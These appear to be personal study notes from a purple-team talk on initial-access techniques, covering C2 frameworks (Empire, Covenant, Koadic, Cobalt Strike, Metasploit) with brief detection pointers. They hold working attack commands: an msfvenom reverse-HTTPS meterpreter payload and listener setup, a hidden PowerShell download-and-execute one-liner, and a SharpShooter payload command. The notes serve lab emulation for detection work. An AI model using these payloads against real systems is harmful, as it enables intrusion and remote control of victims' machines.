## Attack Fundamentals Initial Access Pt1

- Alfie Champion @ajp500
- Riccardo Ancarni 

- Improve understanding of attacks. so we can detect and prevent them
- Jarral Atckinson Blogs on extraction

- Analyse set of known ttps used by real threat actors
- Emulate them in a controlled lab enviroment 
- Observe the traces they leave

##Inital Access

Inital access is the set of tatics, techniques procedures used by malicious actors to obtain a foothold in the target environment

- maldocs example https://dissectmalware.wordpress.com/tag/maldoc/

###Empire

Initial Setup

Run the ./setup/install.sh script. This will install the few dependencies and run the ./setup/setup_database.py script. The setup_database.py file contains various setting that you can manually modify, and then initializes the ./data/empire.db backend database. No additional configuration should be needed- hopefully everything works out of the box.

Running ./empire will start Empire, and ./empire –debug will generate a verbose debug log at ./empire.debug. The included ./setup/reset.sh will reset/reinitialize the database and launch Empire in debug mode. There’s also a detailed “Empire Tips and Tricks” post up here.

- empire powershell https://github.com/EmpireProject/Empire


###Covenant

```
$ ~ > git clone --recurse-submodules https://github.com/cobbr/Covenant
$ ~ > cd Covenant/Covenant
$ ~/Covenant/Covenant > dotnet run
warn: Microsoft.EntityFrameworkCore.Model.Validation[10400]
      Sensitive data logging is enabled. Log entries and exception messages may include sensitive application data, this mode should only be enabled during development.
WARNING: Running Covenant non-elevated. You may not have permission to start Listeners on low-numbered ports. Consider running Covenant elevated.
Covenant has started! Navigate to https://127.0.0.1:7443 in a browser
```

- covenant c2 framework https://bestestredteam.com/2020/02/19/interacting-with-covenant-c2/

- covenant create a listener
- covenant launcher , stageless payload 
- encode in base64, fuzz 

```
git clone --recurse-submodules https://github.com/cobbr/Covenant
cd Covenant/Covenant
dotnet build
dotnet run
```
###Kodaic 

- kodaic hta used by apt28 https://github.com/zerosum0x0/koadic

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```

- Is able to generate stagers within the hta  
- post aquistion framework

- set SRVHOST 192.168.7.2
- execute (generate the stager)
- zombies (implants)
- use exec_cmd 
- info 


###Cobalt Strike

```
Linux
Setup a recommended Java environment for Linux
Extract cobaltstrike-dist.tgz
tar zxvf cobaltstrike-dist.tgz
Run the update program to finish setup.
```

https://www.cobaltstrike.com/downloads/csmanual43.pdf

- cobalt strike beyond
- com shell execute method

- 


###Metasploit 

https://www.darkoperator.com/installing-metasploit-in-ubuntu

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.232.134 LPORT=4444 -f raw -b '\x00' -e x86/shikata_ga_nai -o shellcode.bin
```
```
msfconsole
use exploit/multi/handler
options
set payload windows/meterpreter/reverse_https
set lhost 192.168.232.134
set lport 4444
options
exploit
```


- ct framework metasploit framework 

- operation cobalt kitty
- create listener 
- sigma rule, sigma converters. splunk, 
- babies of pain detect TTP
- eventid 4768, eventid 3, eventid 1
- os query tool
- LOLBin
- shellcode, doesn't need external depenaces,
- excel 4.0 code.
- volatility tool


### Invoke-Obfuscation

- Powershell Module, ScriptBlock and Transcription logging to log Obfuscation

```
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.232.134:80/a'))"
```

https://github.com/danielbohannon/Invoke-Obfuscation

### sharpshooter 

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code. SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's DotNetToJavaScript tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using Web or DNS delivery or both; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project. Alternatively, stageless payloads with embedded shellcode execution can also be generated for the same scripting formats.

https://github.com/mdsecactivebreach/SharpShooter

```
python Sharpshooter.py --payload slk --rawscfile /tnp/shellcode.bin  --output test
```

### ole tools

oletools is a package of python tools to analyze Microsoft OLE2 files (also called Structured Storage, Compound File Binary Format or Compound Document File Format), such as Microsoft Office documents or Outlook messages, mainly for malware analysis, forensics and debugging. It is based on the olefile parser. See here for more info.

https://github.com/decalage2/oletools

### Code Execution and Persistance 

